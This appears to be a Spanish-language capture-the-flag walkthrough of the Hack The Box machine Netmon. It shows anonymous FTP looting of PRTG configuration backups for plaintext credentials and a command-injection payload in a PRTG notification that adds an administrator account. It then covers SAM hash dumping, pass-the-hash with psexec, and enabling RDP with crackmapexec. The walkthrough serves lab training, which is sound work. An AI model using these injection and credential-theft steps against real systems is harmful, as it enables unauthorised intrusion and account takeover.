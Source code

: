 ## Summary

- IP -> 10.10.10.152
- Ports -> TCP (21, 80, 135, 139, 445, 5985, 47001, 49664-9), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 21 -> ftp anonymous login allowed
    - 80 -> httpd 18.1.37.13946 (PRTG Network Monitor)
    - 135 -> msrpc
    - 139 -> netbios-ssn
    - 445 -> samba microsoft-ds Windows server 2008 R2 - 2012 microsoft-ds

## Recon
- Comando -> **ftp 10.10.10.152** Ingresamos por FTP y ahi podemos encontrar la flag de user.txt
- Comando -> **crackmapexec smb {ip_targeted}** Para ver si podemos listar los servicios de Windows del puerto 445 y nos sale Netmon 
- Comando -> **smbclient -L** **{ip_targeted} -N** Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
- - Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80, pero en este caso nos marca un error, por lo que miramos la pagina web.

Buscamos que es PRTG network monitor y tambien sus default password. **admin and user = prtgadmin** pero no funcionan. por lo que seguiremos buscando en ftp.
- Comando -> **ftp 10.10.10.152** Ingresamos por FTP, por lo que trataremos de buscar el (**paessler RPTG bandwit monitor**),  y encontrar rutas que nos puedan dar credenciales en texto claro
Rutas tipicas son:
- >cd "**Program Files**" Pero no encotramos nada interesante

- >cd "**Program Files (x86)**" Nos movemos a ese dir dentro del ftp
- >cd "PRTG Network Monitor" Nos movemos a ese directorio 
- >cd 'webroot' Nos metemos en ese dir que encontramos pero no encontramos nada

ProgramData especifica la ruta de acceso a la carpeta program-data (C:\\ProgramData). A diferencia de la carpeta archivos de programa, las aplicaciones pueden usar esta carpeta para almacenar datos para los usuarios estandar, ya que no requiere permisos elevados.

- >cd "**ProgramData**" Nos metemos dentro del dir y encontramos Paessler que lo encontramos con el comando (ls -la) para archivos ocultos
- >cd Paessler Nos metemos dentro del dir para ver si encontramos algo
- >cd "PRTG Network Monitor" Ingresamos al dir y encontramos el siguiente archivo jugoso
- >get "PRTG Configuration.dat" Archivo que puede contener credenciales y no lo descargamos

- Comando -> **cat "PRTG Configuration.dat" | grep -i password -C 1 | less**  Buscaremos la palabra password ahi adentro sin importar que este con mayusculas o minusculas (i=insensitive, c=listar una linea) y con less lo miramos en formato pagina. Pero no encontramos nada.

- >get "PRTG Configuration.old.bak" Ahora nos descargamos este archivo que tiene pinta de un backupy podria tener credenciales y nos lo descargamos
- Comando -> **diff "PRTG Configuration.dat" "PRTG Configuration.old.bak" | less**  Buscaremos la diferencia entres esos dos archivos, por lo que llegamos a encontrar un user=prtgadmin y password=PrTg@dmin2018

Ahora podemos acceder en la pagina web con esas credenciales obtenidas, pero nos marca error, por lo que si nos poenmos a pensar la encontramos en un archivo old, por lo que le aumentaremos a 2019 para ver si podemos entrar y lo logramos.

Buscamos en Google (PRTG Network Monitor command injection) Y nos dice que a traves de las notificaciones de la pagina web nosotros podemos ingresar un comando. Cuando creamos una y en la parte de "ejecute Program"
	Program File: **.ps1**
	Parameter: **test.txt;net user omar Omar123#! /add; net localgroup Administrators omar /add** 

Con eso vamos a poder agregar un usaurio que pretenezca al grupo Administrator
Despues le damos save. 

Para nosotros poder activar la notificacion que acabamos de crear le damos a la casilla y despues le damos a send test notification. 

- Comando -> **crackmapexec smb {ip_targeted} -u {‘user’} -p {‘password’}** Con este comando verificamos que exista el usuario que hemos colocado en la pagina web y si es asi nos pondra un [+] Pwn3d!.

## User

## Root
Cuando tengamos credenciales validas en el crackmapexec, podemos usar este servicio para conectarnos.
- Comando -> **evil-winrm -i {ip_targeted} -u {‘user’} -p {‘password’}** Con este comando nos conecta al servicio del servidor de winrm y de ahi podemos visualizar la flag root.txt final


--
Alternativo:
- Comando -> **crackmapexec smb {ip_targeted} -u {‘user’} -p {‘password’} --sam** Podremos listar el hash del usuario administrador y del resto que existan en el sistema, con los que podemos llegar a aplicar pass de hash  
- Comando -> **crackmapexec smb {ip_targeted} -u {‘user’} -H {‘hash’}** Con este comando verificamos que el usuario y su hash son validos y si es asi nos pondra un [+] Pwn3d!. 
- Comando -> **psexec.py WORKGROUP/Administrator@10.10.10.152 -hashes 's25df1s6fse86'** Podremos ganar acceso al sistema y nos lanzara una cmd ya que estariamos haciendo un Pass de Hash 

- Comando -> **crackmapexec smb < IP TARGET> -u <‘USER’> -H <‘HASH’> -M rdp -o action=enable** Podemos habilitar el RDP puerto 3389 
- Comando -> **remmina** Para podernos conectar a la maquina victima por RDP de forma grafica
	Ahi adentro le colocamos la IP
	Nombre, Password
	Dominio: WORKGROUP o netmon
	Aceptar 
Y nos debe de conectar al RDP